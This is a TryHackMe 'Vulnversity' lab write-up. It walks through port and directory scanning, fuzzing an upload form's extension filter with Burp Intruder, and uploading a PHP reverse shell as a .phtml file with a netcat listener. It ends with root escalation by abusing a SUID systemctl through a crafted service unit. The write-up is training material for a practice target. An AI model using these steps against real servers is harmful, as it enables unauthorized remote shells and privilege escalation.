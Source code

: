 #+TITLE: TryHackMe - Vulnversity writeup

https://tryhackme.com/room/vulnversity

* Reconnaissance

	*nmap scan:*

	#+begin_src shell
		nmap -p- -T4 -vv -Pn 10.10.10.10
		nmap -sV -vv -Pn -p 21,22,139,445,3128,3333 10.10.10.10
	#+end_src

* Compromising the website

	*Scanning the website found:*

	#+begin_src shell
		gobuster dir -u http://10.10.230.97:3333 -w /usr/share/wordlists/dirb/common.txt
		gobuster dir -u http://10.10.230.97:3333/internal -w /usr/share/wordlists/dirb/common.txt
	#+end_src

	`gobuster` reveals an '/internal' page with an upload form.

	A quick test determines that the form does not allow upload of '.php' files.

	[[/home/jb/Projects/hacking/tryhackme/images/vulnversity1.png]]

** Fuzzing the upload form

	 #+begin_quote
	 Fuzzing or fuzz testing is an automated software testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program
	 - Wikipedia
	 #+end_quote

	 Let's attempt to upload a 'test.php' file with a different extension.

	 To find out which extensions are allowed, we're going to fuzz the upload form. This can be accomplished using BurpSuite's Intruder.

	 1. Use the form to upload './test.php'
	 2. Intercept the request via BurpSuite's Proxy and send it to Intruder: *Actions -> Send to Intruder*
	 3. Under Intruder's tab *Positions*, select *Attack Type -> Sniper*
	 4. Under Intruder's tab *Positions*, in the Payload, *set 'filename' to 'php-reverse-shell§.php§'*

	 [[/home/jb/Projects/hacking/tryhackme/images/vulnversity2.png]]

	 Under Intruder's tab *Payloads*,

	 1. In *Payload Options [Simple List]*, load file '/usr/share/wordlists/wfuzz/general/extensions_common.txt'
	 2. In *Payload Encoding*, uncheck "URL-encore these characters"
	 3. Start the attack

	 [[/home/jb/Projects/hacking/tryhackme/images/vulnversity3.png]]

	 On the Intruder *attack window*, sort requests by 'Length': the different one(s) will likely indicate successful upload, hence identifying the allowed extension(s).

	 In this case, it is '.phtml' (response's length is 723, while all others are 737).

	 [[/home/jb/Projects/hacking/tryhackme/images/vulnversity4.png]]

	 *Let's check http://10.10.230.97:3333/internal/uploads/: test.phtml is there!*

** PHP reverse shell as payload

	 'php-reverse-shell.php' can be found in ''/usr/share/webshells/php/' in Kali, otherwise can be downloaded.

	 https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

	 1. Start netcat to listen to incoming connections: `nc -lnvp 4444`
	 2. Copy the 'php-reverse-shell.php' file into your working directory, edit the file and replace 'ip' and 'port' variables with your attack box IP and the port netcat is listening to
	 3. Rename the file to 'php-reverse-shell.phtml'
	 4. Upload the file and navigate to http://10.10.230.97:3333/internal/uploads/php-reverse-shell.php
	 5. netcat should receive the shell!

* User flag

	The user flag is in '/home/bill/user.text'.

* Privilege Escalation

	Finding all SUID files on the system.

	#+begin_src shell
		find / -user root -perm -4000 -exec ls -ldb {} \;
	#+end_src

	The file of interest is *`/bin/systemctl`*. GTFOBins has a page about it.

	https://gtfobins.github.io/gtfobins/systemctl/

	#+begin_src shell
		TF=$(mktemp).service
		echo '[Service]
		Type=oneshot
		ExecStart=/bin/sh -c "cat /root/root.xt > /tmp/output"
		[Install]
		WantedBy=multi-user.target' > $TF
		/bin/systemctl link $TF
		/bin/systemctl enable --now $TF
	#+end_src

	The root flag will be outputed to file '/tmp/output.'
